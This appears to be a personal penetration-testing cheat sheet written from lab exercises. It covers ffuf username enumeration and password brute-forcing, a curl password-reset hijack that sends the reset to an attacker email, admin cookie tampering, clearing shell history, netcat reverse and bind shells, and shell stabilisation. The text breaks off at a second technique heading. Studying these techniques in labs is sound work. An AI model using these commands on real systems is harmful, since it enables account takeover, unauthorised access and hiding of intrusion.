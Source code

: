 # Upgrades

    sudo apt update -y && sudo apt upgrade -y


# Enumeration (subdomains)(username)(atthentication bypass)
# ffuf

    ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/signup -mr "username already exists" -fs {size}


-w wordlists path

-u url ex https://google.com

-H host/header

-fs switch, which tells ffuf to ignore any results that are of the specified size.

-d argument specifies the data that we are going to send

-mr argument is the text on the page we are looking for to validate we've found a valid username.

-X method of request {POST,GET ,DELETE}

-fc argument to check for an HTTP status code other than 200.

= FUZZ //worldlists content

    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/login -fc 200

# Curl
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
    curl 'http://10.10.54.22/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
    curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
    
# Nmap
    nmap -sV -sC -A http//ip/ -oN output.txt
    
    
# SSH
    ssh username@ip
# SU
    switch user: su - username 
    sudo su username
# history
  
    history -d <line number>
    history -c
# ftp(file transfer protocol)
    ftp ip
    get filename
    
# netcat

reverse shell ports(443,53,80)

the first syntax is for reverse shell

the seceond one is for bind shell

    nc -lvnp <port-number>
    nc <target-ip> <chosen-port>
    
-l is used to tell netcat that this will be a listener

-v is used to request a verbose output

-n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.

-p indicates that the port specification will follow.

   **(---**making the shell stable**---)**
   
  **Technique 1: Python**

    python -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm
    stty raw -echo; fg
   
 fg is use to rerive that termial that we push in the background
 
 and Ctrl + Z push them in the background

![nc](https://user-images.githubusercontent.com/98187755/212935020-c11aea4e-611a-47df-9673-1fe87c8b4fe8.png)

**Technique 2: rlwrap**


